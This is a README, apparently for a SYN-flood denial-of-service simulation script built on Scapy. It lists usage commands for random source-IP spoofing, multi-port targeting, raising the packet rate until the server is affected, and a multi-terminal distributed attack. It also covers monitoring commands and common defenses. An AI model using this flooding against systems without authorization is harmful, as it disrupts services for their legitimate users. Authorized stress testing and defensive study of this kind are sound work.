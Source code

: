# SYN Flood Attack Simulation

## Overview

A SYN Flood is a type of Denial of Service (DoS) attack that exploits the TCP three-way handshake. The attacker sends numerous SYN packets to the target server but never completes the handshake by sending the final ACK packet. This can exhaust the target's connection resources, preventing legitimate users from establishing connections.

This script simulates a SYN flood attack for educational and authorized security testing purposes.

## Features

- Customizable packet rate and count
- Random source IP spoofing
- Port targeting (single port or port range)
- Detailed logging and statistics
- Performance monitoring

## Requirements

- Python 3.6+
- Scapy library
- Root/Administrator privileges (required for packet manipulation)

## Installation

```bash
# Install required dependencies
pip install scapy
```

## Usage

### Basic Attack

The simplest way to run a SYN flood attack is to specify a target IP and port:

```bash
sudo python syn_flood.py -t 192.168.1.10 -p 80
```

This will:
- Send 1000 SYN packets (default) to port 80 on the target
- Use a rate of 100 packets per second (default)
- Spoof the source IP addresses (enabled by default)

### Customizing the Attack

#### Target Multiple Ports

You can target multiple ports or port ranges:

```bash
# Target specific ports
sudo python syn_flood.py -t 192.168.1.10 -p 80,443,8080

# Target a range of ports
sudo python syn_flood.py -t 192.168.1.10 -p 80-100

# Target both specific ports and ranges
sudo python syn_flood.py -t 192.168.1.10 -p 80,443,8000-8100
```

#### Adjust Packet Count and Rate

To control the intensity of the attack:

```bash
# Send 5000 packets at 200 packets per second
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 5000 -r 200

# Send 100 packets at a slower rate (10 per second)
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 100 -r 10
```

#### Disable IP Spoofing

By default, the script uses random source IPs. To disable this:

```bash
sudo python syn_flood.py -t 192.168.1.10 -p 80 --no-spoof
```

#### Enable Verbose Mode

For detailed output and debugging information:

```bash
sudo python syn_flood.py -t 192.168.1.10 -p 80 -v
```

## Advanced Usage

### Testing Server Limits

To find the connection limits of a server, you can gradually increase the packet rate:

```bash
# Start with a low rate
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 1000 -r 50

# Increase the rate if no effect is observed
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 1000 -r 100
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 1000 -r 200
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 1000 -r 500
```

### Distributed Attack Simulation

To simulate a more realistic distributed attack:

```bash
# In one terminal
sudo python syn_flood.py -t 192.168.1.10 -p 80 -c 500 -r 50

# In another terminal
sudo python syn_flood.py -t 192.168.1.10 -p 443 -c 500 -r 50

# In a third terminal
sudo python syn_flood.py -t 192.168.1.10 -p 8080 -c 500 -r 50
```

## Monitoring the Attack

To observe the effect of the attack, you can use various tools:

```bash
# Monitor connections on the target
netstat -nat | grep SYN_RECV | wc -l

# Monitor network traffic
sudo tcpdump -i eth0 "tcp[tcpflags] & (tcp-syn) != 0"

# Monitor server response time
curl -o /dev/null -s -w "%{time_total}\n" http://target-ip/
```

## Ethical Considerations

This tool should ONLY be used for:
- Educational purposes
- Authorized security testing
- Network stress testing

Unauthorized use against systems without explicit permission is illegal and unethical.

## Defensive Measures

Common defenses against SYN flood attacks include:

1. SYN cookies
2. Increasing the backlog queue
3. Reducing SYN-RECEIVED timer
4. Using a firewall with rate limiting
5. Implementing connection timeouts

Understanding these attacks helps in implementing proper defenses.

## Command Line Options

```
-t, --target     Target IP address (required)
-p, --ports      Target ports (comma-separated, ranges allowed, e.g., '80,443,8000-8080') (required)
-c, --count      Number of packets to send (default: 1000)
-r, --rate       Number of packets to send per second (default: 100)
-s, --spoof      Use random source IPs (default: True)
--no-spoof       Don't use random source IPs
-v, --verbose    Enable verbose output
```

## License

Proprietary - Montimage
